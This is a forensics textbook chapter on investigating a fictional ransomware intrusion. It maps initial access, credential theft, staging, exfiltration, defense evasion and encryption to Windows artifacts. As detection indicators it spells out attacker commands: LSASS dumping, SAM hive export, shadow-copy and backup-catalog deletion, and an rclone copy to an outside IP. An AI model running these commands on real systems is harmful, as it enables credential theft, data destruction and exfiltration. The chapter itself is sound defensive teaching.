

# Chapter 12 — Ransomware Incident Response

## Chapter Overview

Most responders will eventually work a ransomware incident, and it is the case where the gap between good and bad forensics is most visible to the business. Every other case in this book reconstructs something that already finished. A ransomware case is different. The ransom note is a live negotiation clock, and executives are in the room asking when systems come back. Insurers and counsel want to know whether data left the building. The evidence you need sits on hosts that the recovery team wants to reimage this afternoon.

For a new responder, the most useful reframing is this: **the encryption event is the end of the intrusion, not the beginning of it.** By the time `.vaulted` files appear on a file server, the actor has usually been inside for days or weeks. They have already stolen credentials, moved laterally, mapped the environment, turned off the endpoint protection, deleted the shadow copies, and, in most modern cases, copied the data out. The encryption comes last because it ends their access. If you scope the case to the encryption, you will produce a fast, confident, and wrong answer.

This chapter walks through a full ransomware investigation against a single scenario host: **ACCT-FS01**, an accounting file server in the `FINANCE` domain. It covers what makes ransomware operationally different from the cases in Chapters 4 through 11 and how each stage of a ransomware intrusion maps to specific Windows artifacts. It then shows how to scope the encryption blast radius, work backwards to patient zero, and establish the dwell window. It closes with the exfiltration question that drives regulatory obligations and with what forensics owes the business when it decides how to recover.

The chapter does not tell you whether to pay. That decision is not the responder's, and a responder who treats it as one has stepped outside their role. The chapter shows how to give the people who *do* make that decision an accurate, honest, appropriately hedged picture of what happened.

## Learning Objectives

By the end of this chapter, you should be able to:

* Explain why the encryption event is the end of a ransomware intrusion and scope the investigation accordingly
* Map each stage of a ransomware kill chain — initial access through encryption — to the specific Windows artifacts that evidence it
* Determine the blast radius of an encryption event across hosts, volumes, and network shares
* Use USN Journal mass-modification patterns and ransom-note placement to establish encryption start and stop times
* Work backwards from the encryptor to patient zero and establish a defensible dwell window
* Investigate pre-encryption data staging and exfiltration, including `rclone`, `WinSCP`, and cloud-sync transfer artifacts
* Recognize the defense-evasion signature set — Defender tampering, shadow copy deletion, log clearing — and recover evidence despite it
* Provide the recovery decision with scope confidence, reinfection risk, backup trustworthiness, and actor-presence assessments without overstating certainty

---

## 12.1 What Makes Ransomware Different

### 12.1.1 The Clock

A ransomware case runs on four clocks, and they run at different speeds. Every earlier case in this book had one clock: yours.

The **recovery clock** is the fastest. Every hour the accounting file server is down is an hour the finance team is not working. The pressure to reimage and restore starts within the first two hours and does not let up. Reimaging destroys evidence, so your first substantive act on a ransomware case is almost always a preservation request: *do not reimage ACCT-FS01 until we have a disk image and a memory capture, and do not reimage the jump host at all until we have finished scoping.*

The actor sets the **negotiation clock**. Ransom notes typically carry a deadline after which the price increases or the stolen data is published. Counsel and any negotiation vendor will want your findings before that deadline. Partial answers delivered on time are worth more than complete answers delivered late.

Regulation and contract set the **notification clock**. If personal data left the environment, breach-notification timelines start running from the point of awareness — 72 hours under GDPR, varying windows under US state law and sector regulation. That makes *did they take data?* the question with the shortest legal fuse.

The **insurance clock** runs alongside all of it. Cyber insurance policies commonly require notice within a short window and often specify which forensics vendor the insured may engage. Establish who your client is — the company, counsel, or the carrier — before you write anything down.

> **Why this matters:** These clocks conflict. Recovery wants speed, notification wants certainty, and forensics can only trade one for the other. Name the conflict out loud in the first bridge call, and get an explicit decision on preservation before recovery. That is the highest-value thing a responder does in the first hour.

### 12.1.2 The Encryption Is the End, Not the Start

In the ACCT-FS01 scenario, everything of investigative interest happened in the six days before the encryption, not during it. The encryption window runs from **2024-11-12 02:14 UTC to 03:38 UTC**, 84 minutes in all. Initial access occurred on 2024-11-06, a six-day dwell time.

An investigation scoped to the encryption answers one question of limited value: "what encrypted the files?" An investigation scoped to the dwell window answers the questions the business actually has:

- How did they get in, and is that path still open?
- What accounts did they compromise, and do those credentials need to be reset domain-wide?
- Where else did they go? Are there hosts that were touched but not encrypted?
- Did they take anything?
- Is there persistence that will survive the restore?

The last question matters most operationally. Organizations that restore from backup without answering it get encrypted a second time, sometimes within days, through access the actor never lost.

### 12.1.3 Double and Triple Extortion

Ransomware crews stopped relying on encryption alone years ago, because backups got better. The modern model layers pressure:

| Layer | Mechanism | Forensic question it creates |
|---|---|---|
| Single extortion | Encrypt data, sell the decryptor | What is encrypted, and can it be restored? |
| Double extortion | Exfiltrate before encrypting; threaten publication | What data left, when, how much, and to where? |
| Triple extortion | Contact customers, partners, regulators, or press directly | Whose data was in the exfiltrated set? |
| Fourth-layer pressure | DDoS the victim, harass staff, abuse the victim's own breach-notification obligations against them | Are we still under active pressure from this actor? |

The practical consequence is that **exfiltration analysis is not optional**. An investigation that confirms encryption scope but skips the exfiltration question has answered the cheap half of the case.

### 12.1.4 "Just Restore From Backup" Is Not the Whole Answer

Restoring from backup solves the availability problem. It solves none of the others.

- It does not remove the actor's access, and the backup itself may contain their persistence.
- It does not un-exfiltrate the data, so notification obligations survive a perfect restore.
- It destroys the evidence on the encrypted host unless you imaged first.
- It assumes the backups are intact. Modern crews deliberately target backup infrastructure: they delete shadow copies, purge backup catalogs, and encrypt or destroy backup appliances before they touch production.

Backup viability is therefore a forensic question as much as an ops question: *when was the last backup taken that predates the earliest confirmed actor activity, and is it clean?* Answering it requires the dwell window from 12.4.

### 12.1.5 The Scenario

The rest of this chapter works a single case. The Lab 12 dataset in `Data/ACCT-FS01/` provides simulated parser output for it.

| Element | Value |
|---|---|
| Host | `ACCT-FS01`, accounting file server, Windows Server 2019 |
| IP | `10.0.6.15` |
| Domain | `FINANCE` |
| Ransomware family | **Vault** (fictional strain used throughout this book) |
| Encrypted-file extension | `.vaulted` |
| Ransom note | `RECOVER-YOUR-FILES.txt`, dropped in every encrypted directory |
| Initial access | Internet-exposed RDP on a jump host; credential brute force against `svc-backup` |
| Initial access date | 2024-11-06 |
| Encryption window | 2024-11-12 02:14 – 03:38 UTC |
| Dwell time | 6 days |
| Staging directory | `C:\Windows\Temp\wu\` |
| Exfiltration tool | `rclone.exe` to `185.220.101.44` |
| Defense evasion | Defender real-time protection disabled; `vssadmin delete shadows /all /quiet`; Security log cleared |

---

## 12.2 The Ransomware Kill Chain in Windows Artifacts

Every stage of a human-operated ransomware intrusion leaves Windows artifacts. Knowing which artifact evidences which stage turns a pile of parsed CSVs into an investigation.

*Figure 12.1 — The Vault intrusion on ACCT-FS01 mapped to the Windows artifacts that evidence each stage. The artifact families are the same ones taught in Chapters 4 through 10. Ransomware does not require new forensics, only a different assembly order.*

### 12.2.1 Initial Access

Internet-exposed RDP remains one of the most common ransomware entry vectors, alongside phishing and exploitation of edge devices. In this scenario, the actor brute-forced the `svc-backup` service account against a jump host with TCP/3389 exposed.

The artifact signature on the jump host:

- A burst of **4625** (failed logon) events, `LogonType 10` or `3`, over minutes to hours, all targeting the same account from the same source address
- A single **4624** with `LogonType 10` (RemoteInteractive) ending the burst — the successful attempt
- **4776** (NTLM credential validation) or **4771** (Kerberos pre-auth failure) on the domain controller for the same account
- `Microsoft-Windows-TerminalServices-RemoteConnectionManager/Operational` **EID 1149**, which records the source IP for RDP connection attempts even before authentication
- `Microsoft-Windows-TerminalServices-LocalSessionManager/Operational` **EID 21** (session logon), **22** (shell start), **25** (reconnection)

Service accounts are the classic target because they have non-expiring passwords, are excluded from lockout policy often enough, and frequently carry more privilege than anyone remembers granting them. A successful brute force against `svc-backup` is usually a password-policy finding as much as an attack finding.

> **Why this matters:** The 4625 burst anchors the entire dwell window. If it is still in the log, you have your entry point. If the log has rolled or been cleared, everything in 12.4 becomes a reconstruction exercise. Collect logs from the perimeter host *first*, not last.

### 12.2.2 Persistence

Ransomware actors establish persistence early because the initial access path is fragile. An exposed RDP port may be closed, or a password may be rotated. Typical Windows persistence, and where to find it (Chapter 5 covers the registry keys in depth):

- **Local account creation** — Security **4720**, and **4732** for addition to `Administrators`. Look for accounts with plausible-but-wrong names (`sqladmin`, `helpdesk2`, `svc-backup2`).
- **Service installation** — System **7045**, plus the service's key under `HKLM\SYSTEM\CurrentControlSet\Services\`. Remote-execution tooling leaves a distinctive trail here: `PSEXESVC`, or a randomly named service created by an equivalent.
- **Run keys** — `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` and the per-user equivalent under `NTUSER.DAT`.
- **Scheduled tasks** — Security **4698** (task created), the task XML under `C:\Windows\System32\Tasks\`, and `Microsoft-Windows-TaskScheduler/Operational` **106/200/201**.
- **Remote access tooling** — ransomware crews install AnyDesk, ScreenConnect, Atera, and Splashtop constantly because they look like IT tooling. Check Amcache, Prefetch, and installed-product registry keys (Chapter 6), and check whether the organization uses that product.
- **RDP re-enablement** — `HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\fDenyTSConnections` set to `0`, or a non-standard `PortNumber` under `WinStations\RDP-Tcp`.

### 12.2.3 Credential Access

Credential theft is the pivot that turns a foothold into a domain problem. The actor arrives with one account and needs more.

- **LSASS dumping** — Security **4688** or Sysmon **1** showing `rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump`, `procdump.exe -ma lsass.exe`, or a renamed Mimikatz. Sysmon **10** (ProcessAccess) with `GrantedAccess: 0x1010` against `lsass.exe` is the higher-fidelity version (Appendix C).
- **Registry hive extraction** — `reg save HKLM\SAM`, `reg save HKLM\SYSTEM`, `reg save HKLM\SECURITY`, giving offline access to local hashes and cached domain credentials.
- **NTDS.dit theft** on a domain controller — `ntdsutil` invocation, or a volume shadow copy created specifically to read the locked file. Covered in Appendix A.
- **Kerberoasting** — a burst of **4769** service ticket requests with `RC4` encryption type from a single account.

This stage usually shows up later as a change in *which account is doing things*. A switch from `svc-backup` to a domain admin mid-timeline is often the clearest single indicator that credential access succeeded.

### 12.2.4 Discovery and Lateral Movement

Between credential theft and encryption sits a mapping phase. The actor needs to know where the file shares, the backups, the domain controllers, and the hypervisors are.

Discovery is loud in **4688** process-creation logging and in Prefetch: `net.exe view`, `net group "Domain Admins" /domain`, `nltest /dclist:`, `whoami /groups`, `systeminfo`, plus purpose-built share enumerators and AD mappers such as SoftPerfect Network Scanner, Advanced IP Scanner, or SharpHound. Prefetch (`C:\Windows\Prefetch\`) preserves first- and last-run times for each of these even when process auditing was off (Chapter 6).

> **Check Prefetch is on before you rely on it.** Prefetch is **disabled by default on Windows Server SKUs**, and ACCT-FS01 is a file server. The Lab 12 dataset ships Prefetch because the scenario's administrators had enabled it — a deliberate and slightly fortunate configuration, not the norm. Confirm `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management\PrefetchParameters\EnablePrefetcher` is non-zero on the host you are working before you treat an empty `Prefetch\` directory as evidence that nothing ran. On most servers, an empty directory means the feature was never on, and your execution evidence has to come from 4688, Amcache, ShimCache, or EDR instead.

Lateral movement to ACCT-FS01 leaves paired evidence — source side and destination side:

| Movement method | Source-side artifact | Destination-side artifact |
|---|---|---|
| RDP | `HKU\<SID>\Software\Microsoft\Terminal Server Client\Servers`, bitmap cache under `AppData\Local\Microsoft\Terminal Server Client\Cache\` | **4624 Type 10**, TSLSM **21/22/25**, **4778/4779** |
| SMB / `net use` | **4688** for `net.exe use \\ACCT-FS01\...`, `MountPoints2` registry key | **4624 Type 3**, **5140/5145** share access |
| PsExec-style | **4688** for the client binary | **7045** service install, **4624 Type 3**, `PSEXESVC` artifacts |
| WMI / WinRM | **4688** for `wmic` or `winrs` | WinRM operational log, `wsmprovhost.exe` in Prefetch |
| Scheduled task push | `at`/`schtasks` in **4688** | **4698**, task XML |

**4648** (logon with explicit credentials) on the source host is one of the highest-value single events in a ransomware case. One entry records the account used, the target host, and the process that initiated the logon. Appendix A treats lateral movement in full.

### 12.2.5 Collection and Staging

Before exfiltration, the actor gathers the data in one place. In this scenario, the staging directory is `C:\Windows\Temp\wu\`, a path chosen to look like Windows Update scratch space. That disguise is exactly why it deserves a second look.

Staging evidence lives in NTFS (Chapter 4):

- A cluster of **MFT** `$FN` Born timestamps in a directory that had no prior activity
- A **USN Journal** burst of `FileCreate` + `DataExtend` + `Close` entries for large files in that directory
- Archive artifacts — `.7z`, `.zip`, `.rar` parts, often split into equal-sized volumes (`data.7z.001`, `.002`, …), which is the signature of a transfer being chunked for reliability
- Execution evidence for the archiver: `7z.exe`, `WinRAR.exe`, or `rar.exe` in Prefetch and Amcache
- Later deletion of the staging directory, still recoverable from the USN Journal even when the files are gone

The size of the staged set is one of your best proxies for exfiltration volume, a central question in 12.5.

### 12.2.6 Exfiltration

Section 12.5 covers exfiltration in full. In this scenario, `rclone.exe` copied data from `C:\Windows\Temp\wu\` to a remote configured against `185.220.101.44`.

### 12.2.7 Defense Evasion

Immediately before encryption, the actor clears the runway. In this scenario, the sequence is Defender first, shadow copies second, logs last.

- **Defender disabled** — `Microsoft-Windows-Windows Defender/Operational` **5001** (real-time protection disabled) and **5007** (configuration changed), plus registry evidence at `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\DisableAntiSpyware` and `...\Real-Time Protection\DisableRealtimeMonitoring`. Also look for **1116/1117** immediately *before* the disable. Defender catching and quarantining the actor's earlier tooling is a gift, because the detection names their tools.
- **Shadow copies deleted** — `vssadmin delete shadows /all /quiet` in **4688**, `vssadmin.exe` in Prefetch, `volsnap` **EID 25** in the System log, and VSS service errors in the Application log. Variants use `wmic shadowcopy delete`, `wbadmin delete catalog -quiet`, and `bcdedit /set {default} recoveryenabled No` to disable Windows recovery.

  > **Read the volsnap event text, not just the ID.** EID 25 reads *"The shadow copies of volume C: were deleted because the shadow copy storage could not grow in time."* That text describes a storage-pressure auto-deletion. The OS writes this event when the diff area runs out of room, and it fires on healthy systems under heavy write load. It is not a record of the `vssadmin` command. In fact, there is **no dedicated Windows event for deliberate shadow copy deletion**. EID 25 gives you the *outcome*: the snapshots are gone, at this time, on this volume. The deliberate-deletion reading comes from the surrounding context: a `VSSADMIN.EXE` Prefetch entry with a matching last-run time, a cluster of EID 25 records seconds apart while the host is otherwise idle, and an empty `vssadmin list shadows`. Cite the cluster as corroboration. Cite the 4688 or Prefetch entry as the evidence of the command.
- **Backups purged** — `Microsoft-Windows-Backup` **EID 524** (backup catalog deleted). Third-party backup agents log their own deletions. Get those logs from the backup platform, not the host.
- **Security log cleared** — **EID 1102** in the Security log, **EID 104** for other channels. This is the one act that cannot be hidden: clearing the log writes an entry into the newly empty log, and that entry carries the account and timestamp of whoever cleared it.

> **Why this matters:** Log clearing does not destroy the investigation. It relocates it. A cleared Security log on ACCT-FS01 still leaves you the domain controller's logs, the EDR telemetry, the operational channels, the USN Journal, Prefetch, ShimCache, and SRUM. The operational channels are far less likely to be cleared, because actors forget they exist. Chapter 9 §9.2.5 covers the recovery paths. Treat 1102 as a finding — *the actor cleared the log at 02:09* — rather than as the end of a line of inquiry.

### 12.2.8 Encryption

The actor usually deploys the encryptor to many hosts at once through GPO, PsExec, or the organization's own software-deployment tooling. On ACCT-FS01, look for:

- **4688** for the encryptor binary, if process auditing survived the log clear
- **Prefetch** for the binary, giving first-run time even without 4688. Ransomware deployed and run once on a server may execute before Prefetch flushes to disk
- A **USN Journal** storm: for each victim file, typically `DataOverwrite`/`DataTruncation`, then `RenameOldName`/`RenameNewName` to the `.vaulted` extension, then `Close`
- `RECOVER-YOUR-FILES.txt` created in every directory containing an encrypted file
- Often, deletion of the encryptor itself immediately afterwards, which the USN Journal still records

---

## 12.3 Scoping the Encryption

Scoping answers four questions: **which hosts, which data, how many files, and when.** Scope first, because the recovery team cannot plan without it and because it is the fastest half of the investigation.

### 12.3.1 The Encrypted-Extension Sweep

The `.vaulted` extension is your primary selector. From a parsed MFT (Chapter 4), filter for entries whose file name ends in `.vaulted` and aggregate by parent directory. That gives you:

- Total encrypted file count on the volume
- Per-directory counts, which show you what the actor prioritized
- The earliest and latest `$SI` Modified timestamps across the set, bounding the encryption window
- Directories with *no* encrypted files, which are equally informative. Most families skip `C:\Windows\`, `C:\Program Files\`, and their own working directories, and an unencrypted directory in the middle of an encrypted volume is worth looking at

File count is not data volume. A set of 10,000 small `.docx` files and a set of 200 multi-gigabyte database backups are very different recovery problems. Aggregate by size as well as by count.

> **Figure 12.2 — _placeholder for `figures/fig-12-2-extension-sweep.png`_**
>
> `Data/ACCT-FS01/encrypted-files-inventory.csv` grouped by directory and ranked twice — once by file count, once by total bytes — showing the 418-file / 73.26 GiB total and `C:\Shares\IT\Backups\SQL` holding 91.8% of the volume from 5 files. The two rankings come out in nearly opposite orders, which is the point: the recovery team plans against volume, counsel scopes notification against count and content. See [`figures/Readme.md`](figures/Readme.md) for capture instructions.

### 12.3.2 USN Journal Mass-Modification Patterns

> **Figure 12.3 — _placeholder for `figures/fig-12-3-usn-encryption-burst.png`_**
>
> `Data/ACCT-FS01/usn-journal.csv` loaded in Timeline Explorer and sorted by `UpdateTimestamp`, showing the mass-modification burst between 02:14 and 03:38 UTC. The visual density of the burst set against the sparse baseline above it is the point of the figure — it communicates the scoping lesson faster than the surrounding prose does. See [`figures/Readme.md`](figures/Readme.md) for capture instructions.

The MFT tells you the current state. The USN Journal (Chapter 4 §4.3) tells you the sequence, and for encryption the sequence is the evidence.

Normal file-server activity produces a few hundred to a few thousand USN records per minute, spread across many users, many processes, and many directories. Encryption produces a completely different shape:

- **Rate** — tens of thousands of records per minute, sustained
- **Uniformity** — the same reason-code sequence repeated for every file
- **Rename pairs** — a `RenameOldName`/`RenameNewName` pair per file, with the new name being the old name plus `.vaulted`
- **Directory walk order** — records grouped by directory, walking the tree in a deterministic order, rather than the scattered pattern of real users
- **Interleaved note creation** — a `RECOVER-YOUR-FILES.txt` `FileCreate` at each directory boundary

The fastest way to visualize the encryption window is to bucket USN records into one-minute bins and plot the count. The curve rises almost vertically at the start, plateaus, and drops off just as sharply. In this scenario, the plateau runs **02:14 to 03:38 UTC on 2024-11-12**.

The same technique detects the *staging* burst from 12.2.5, several days earlier and at a much lower amplitude. That makes it a useful way to find data movement you were not looking for.

### 12.3.3 Ransom Notes as a Directory Map

> **Figure 12.4 — _placeholder for `figures/fig-12-4-ransom-note.png`_**
>
> A `RECOVER-YOUR-FILES.txt` note open beside an Explorer window showing the same directory full of `.vaulted` files. Use the Lab 12 scenario's synthetic note text — no real group branding, onion addresses, or payment addresses. See [`figures/Readme.md`](figures/Readme.md) for capture instructions.

The set of note locations *is* a map of the blast radius, because Vault drops `RECOVER-YOUR-FILES.txt` into every directory it encrypts. Filter the MFT for the note file name to get a complete list of affected directories in one query. That list includes directories on mapped drives and mounted volumes that a per-file sweep might scatter.

Note metadata carries more than location:

- The note's `$SI` Born timestamp per directory tells you *when the encryptor reached that directory*, which lets you reconstruct the traversal order
- Identical content across all copies confirms a single campaign. Differing victim IDs across hosts can indicate separate deployments or separate affiliates
- The note's own `$FN` timestamps are useful when the actor timestomped the encrypted files

Preserve one copy of the note as evidence. It contains the victim ID, the contact channel, and often the leak-site URL. Counsel, the negotiation vendor, and threat intelligence will all want these details, and they help identify the family and therefore whether a decryptor exists (12.6.4).

### 12.3.4 Which Hosts and Which Shares

ACCT-FS01 is a file server, which complicates scoping in a specific way: **the host that mounted a network share performs its encryption, not the host that serves the share.** If the actor encrypted `\\ACCT-FS01\Accounting` from a different machine over SMB, then:

- ACCT-FS01's MFT and USN Journal show the file changes
- ACCT-FS01's Security log shows **5140** (share accessed) and **5145** (detailed file share access) from the encrypting host's IP
- ACCT-FS01 shows *no* execution evidence for the encryptor — no Prefetch entry, no 4688, no binary on disk
- The encrypting host shows the execution evidence but few file changes

Responders regularly lose hours hunting for an encryptor binary on a file server that never ran one. If you see mass file modification with no local execution evidence, pivot immediately to 5140/5145 and to network flow (Chapter 8) to identify the source host. Then repeat the scoping process there.

Enterprise-wide scoping uses the same selectors at scale: sweep for the `.vaulted` extension and for `RECOVER-YOUR-FILES.txt` across all reachable hosts via EDR live query (Appendix C), and treat any host with either as in scope.

### 12.3.5 Producing the Scoping Output

The scoping deliverable is short and goes out within the first few hours:

| Field | ACCT-FS01 |
|---|---|
| Encryption start (UTC) | 2024-11-12 02:14 |
| Encryption stop (UTC) | 2024-11-12 03:38 |
| Duration | 84 minutes |
| Encrypted file count | *from the extension sweep* |
| Encrypted data volume | *from MFT logical size sum* |
| Affected directories | *from ransom-note placement* |
| Directories excluded | `C:\Windows\`, `C:\Program Files\`, staging directory |
| Encryption performed locally? | *confirm via 4688 / Prefetch vs 5145* |
| Shadow copies available? | *check `vssadmin list shadows` output and volsnap 25* |

Mark every number as preliminary until you have swept the whole environment. Scoping numbers get quoted in board updates within the hour, and a number you have to revise upward later costs credibility you will need in 12.6.

---

## 12.4 Finding Patient Zero and the Dwell Window

Finding patient zero is the core forensic work of a ransomware case. The technique is backwards chaining: start at the event you are certain about, the encryption, and walk the evidence toward the entry point one confirmed link at a time.

### 12.4.1 Anchor on the Encryptor

Begin with the encryption event on ACCT-FS01 at 02:14 UTC and ask three questions:

1. **What process performed it?** From **4688**, Prefetch, or (per 12.3.4) the 5145 source IP if it ran remotely.
2. **What account did that process run as?** The `SubjectUserName` in 4688, or `SubjectUserSid` in 5140/5145.
3. **How did that binary get here?** MFT `$FN` Born for the encryptor file, and the USN Journal entry for its creation — which gives a timestamp for the delivery, typically minutes to hours before execution.

Each answer is a new anchor. The account becomes a selector for the whole timeline. The binary's creation time becomes a new pivot point to work backwards from.

### 12.4.2 Follow the Account Backwards

If the encryptor ran as `FINANCE\svc-backup`, pull every authentication event for that account across the environment, not just this host. Chapter 9's hunt-pack approach applies directly:

- **4624** logons, noting `LogonType`, source IP, and target host
- **4625** failures, which often reveal the actor probing hosts they could not reach
- **4648** explicit-credential use, which links source host to destination host
- **4672** special privilege assignment, which flags when the account was operating with administrative rights
- **4768/4769** Kerberos TGT and service ticket requests on the DC

Sort by time and read the sequence. Consider a service account whose normal pattern is a nightly Type 5 (service) logon on three known backup servers. If it suddenly appears as Type 10 (RemoteInteractive) on a jump host at 2024-11-06 21:40 UTC, and then as Type 3 across a dozen file servers over the following days, it has told you almost the entire story.

> **Why this matters:** Domain controller logs are the backbone of ransomware dwell-time analysis. They are frequently the *only* surviving authentication record, because actors clear logs on the hosts they touch and rarely bother with every DC. Collect DC Security logs on day one, before anything else expires.

### 12.4.3 Cross the Host Boundary

Each 4624 on ACCT-FS01 names a source IP. Resolve it to a host and repeat the whole process there: what ran, as whom, and where did *that* come from. In this scenario, the chain runs ACCT-FS01 → jump host → internet.

At each hop, look for:

- Source-side lateral movement artifacts from the table in 12.2.4 — the `Terminal Server Client\Servers` registry key on the jump host will list ACCT-FS01 if RDP was used, and `MountPoints2` will list `\\ACCT-FS01\` shares if `net use` was
- The RDP bitmap cache (`bcache*.bmc`), which can preserve fragments of what the actor saw on screen
- Prefetch and Amcache for tooling that arrived on that host
- USN Journal entries for tool delivery and deletion

### 12.4.4 Reach the Edge and Confirm the Entry Point

The chain terminates when you reach a host whose earliest actor activity has an external source. On the jump host, that is the 4625 burst against `svc-backup` from an external IP on 2024-11-06, ending in a successful 4624 Type 10.

A single log entry is a hypothesis, so confirm the entry point with independent evidence before declaring it:

- **Perimeter firewall or VPN logs** showing inbound 3389 from the same source in the same window
- **TerminalServices-RemoteConnectionManager 1149**, which records the source IP independently of the Security log
- **Netflow** (Chapter 8) showing the connection and its duration
- Absence of a competing explanation — no phishing email in the window, no exploited edge appliance, no other unexplained external session

Now you have the dwell window: **2024-11-06 through 2024-11-12, six days.** It scopes every subsequent question: which backups are clean, what data was reachable, and which credentials to rotate.

### 12.4.5 Working Around the Cleared Log

The actor cleared the Security log on ACCT-FS01 at 02:09 UTC, five minutes before encryption began. That removes local authentication history for the entire dwell window. It does not remove:

- **Domain controller logs** — every domain authentication is recorded there too
- **The USN Journal and MFT** — file activity is untouched by log clearing
- **Prefetch, Amcache, ShimCache** — execution evidence, all independent of the event log
- **SRUM** (`C:\Windows\System32\sru\SRUDB.dat`) — per-application network bytes sent and received, per user, in hourly buckets, which makes it valuable for exfiltration volume
- **Operational channels** — Defender, TerminalServices, TaskScheduler, WinRM, PowerShell. These are separate `.evtx` files and are cleared far less often.
- **Volume shadow copies**, if any survived, which may contain a pre-clear copy of `Security.evtx` (Chapter 3 covers mounting them)
- **EDR telemetry**, which is off-host and therefore out of the actor's reach (Appendix C)

The 1102 event itself carries the clearing account and time. In this scenario, if 1102 names `svc-backup` at 02:09, you have established two things at once: the account was compromised, and the clearing was deliberate rather than administrative.

> **From the field — illustrative composite.** In a manufacturing ransomware case, the responders established a two-day dwell window from the surviving Security logs and reported it to the client. The client scheduled restoration from a three-day-old backup. On day four, the SRUM database on a secondary file server showed sustained outbound traffic from a process that had been running for *19* days. The real entry point predated every log the team had, and the "clean" backup contained the actor's scheduled task. The restore reinfected the environment inside 48 hours. The lesson the team codified afterwards: never report a dwell window bounded by the oldest surviving log without saying so explicitly. "Earliest observed activity: 2024-11-06; log retention begins 2024-11-04; earlier activity cannot be excluded" is a longer sentence and a defensible one.

---

## 12.5 Did They Steal Data Before Encrypting?

Pre-encryption exfiltration is the question with regulatory consequences, and it is the hardest one to answer cleanly.

### 12.5.1 Why It Is Hard

Encryption is loud and leaves a large, unambiguous footprint. Exfiltration is quiet. At the packet level, a few gigabytes leaving over HTTPS to a cloud storage provider looks like a backup job. The actor's cleanup also usually targets exactly the artifacts that would prove it. The actor deletes the staging directory, the transfer tool, and the tool's configuration and logs.

You will often be asked a binary question — *was data exfiltrated, yes or no?* — when the honest answer is a confidence statement. Section 12.5.5 covers how to give that answer without either overclaiming or being useless.

### 12.5.2 Staging Evidence

Start with the staging directory identified in 12.2.5, `C:\Windows\Temp\wu\`. Even if the actor deleted it, the NTFS record survives:

- **USN Journal** entries showing file creation, extension, and deletion in the directory, with names and sizes
- **MFT** entries for the deleted files, potentially still unallocated-but-intact (Chapter 4 §4.2.4)
- **Recycle Bin** artifacts if the actor deleted through Explorer rather than programmatically — `$I` files preserve original path, original size, and deletion time (Chapter 4)
- **Archive tool execution** in Prefetch and Amcache, with first- and last-run times bracketing the staging activity

The names of the staged files tell you *what* was taken, and that matters more than the volume. `Payroll_2024_Q3.xlsx` in the staged set is a notification trigger. A directory of build artifacts is not. Reconstruct the staged file list as completely as you can, because counsel will scope notification obligations directly from it.

### 12.5.3 Transfer Tool Artifacts

Three tools dominate ransomware exfiltration, and each has a distinct artifact set.

**rclone** — by a wide margin the most common. It is a legitimate open-source cloud-sync utility, frequently renamed (`svchost.exe`, `winupdate.exe`) to blend in.

- Command line in **4688** or Sysmon **1**: `rclone.exe copy "C:\Windows\Temp\wu" remote:acct --transfers 8 --multi-thread-streams 4 -q`
- Configuration at `C:\Users\<user>\AppData\Roaming\rclone\rclone.conf`, which names the remote type and often the endpoint — the highest-value single artifact in an exfiltration case
- Log file, if `--log-file` was used, listing every transferred file by name
- Prefetch entry, giving run count and first/last run. Run count is a rough proxy for how many transfer sessions occurred
- Renaming the binary changes its Prefetch filename. Windows builds the `.pf` name from the executable name plus a hash of the full path, so you will find `WINUPDATE.EXE-A1B2C3D4.pf`, not `RCLONE.EXE-*.pf`. Renaming does *not* change the file's content. The Amcache entry preserves the SHA-1, which will match the known rclone hash. The Prefetch file-reference list can also give the tool away: rclone reads its configuration at startup, so `rclone.conf` can appear among the files the `.pf` records, whatever the binary is called

**WinSCP** — SFTP/FTP transfer, common for actors comfortable with a GUI.

- Session history in `HKCU\Software\Martin Prikryl\WinSCP 2\Sessions\`, including hostname, username, and remote directory
- Configuration in `WinSCP.ini` if run portable
- Jump List and LNK artifacts for the executable (Chapter 6)

**MEGAsync / cloud-sync clients** — MEGA, Dropbox, and similar.

- Local database and log files under `AppData\Local\MEGAsync\` or the vendor equivalent
- Sync configuration naming the local folder that was synced
- Browser history for the web upload interface, if the client was not installed (Chapter 6)

Other transfer methods include `bitsadmin`/`BITSAdmin` transfers (recorded in `Microsoft-Windows-Bits-Client/Operational`), `certutil -urlcache -f`, PowerShell `Invoke-WebRequest` uploads, and raw FTP.

### 12.5.4 Egress Volume Analysis

Tool artifacts prove a transfer was attempted. Volume evidence bounds how much left.

**SRUM** is the best host-side source. `SRUDB.dat` records per-application, per-user, per-interface network bytes sent and received in roughly hourly buckets. A row showing `rclone.exe`, or its renamed alias, sending 40 GB between 22:00 on 2024-11-11 and 02:00 on 2024-11-12 is strong evidence that the host pushed that volume out over that interface. That evidence also survives log clearing. Chapter 6 covers parsing it.

Know SRUM's limits before you lean on it. It has **no destination field**, so it tells you that a process sent 40 GB but never where. It also aggregates. The hourly bucket is the sum of everything that process sent on that interface in that hour, so you cannot map a SRUM row onto one network session. Pairing SRUM with flow records closes the gap. SRUM supplies the process attribution that flow lacks, and flow supplies the destination that SRUM lacks. Neither alone gets you to "this process sent this data to this IP."

**Network flow records** are the authoritative source when they exist (Chapter 8). For the destination `185.220.101.44`:

- Total bytes out, by hour, from `10.0.6.15` and from every other internal host
- Session count and duration
- Port and protocol — cloud-storage exfiltration is usually 443, which is why volume rather than port is the signal
- Whether the destination was contacted before the incident, which distinguishes actor infrastructure from a legitimate service

**Proxy and firewall logs** add the request-level detail flow lacks: URLs, user agent, and, for proxies that log it, per-request byte counts. A user agent string of `rclone/v1.65.0` in the proxy log is an unambiguous finding.

**Volume sanity-check**: compare the staged data size from 12.5.2 against the observed egress. If 40 GB was staged and flow shows 41 GB out, the volumes are consistent with a completed transfer. If 40 GB was staged and flow shows 2 GB out, the transfer was interrupted. That is a materially different finding, and it is worth saying out loud because it changes what was disclosed.

### 12.5.5 Answering Honestly When the Evidence Is Partial

When the evidence is incomplete, as it usually is, use tiered language, define the tiers, and apply them consistently:

| Statement | Evidentiary basis |
|---|---|
| **Confirmed** | Direct evidence of transfer with named data and volume — e.g. rclone log listing transferred files, corroborated by matching egress volume |
| **Highly likely** | Staging evidence plus transfer-tool execution plus egress volume consistent with the staged set, without a per-file transfer record |
| **Possible / cannot be excluded** | Staging evidence or tool presence, but no corroborating egress data — for example, flow retention that does not cover the window |
| **No evidence found** | The relevant sources were available and reviewed, and showed nothing |
| **Cannot be determined** | The relevant sources were unavailable — cleared, rolled over, or never collected |

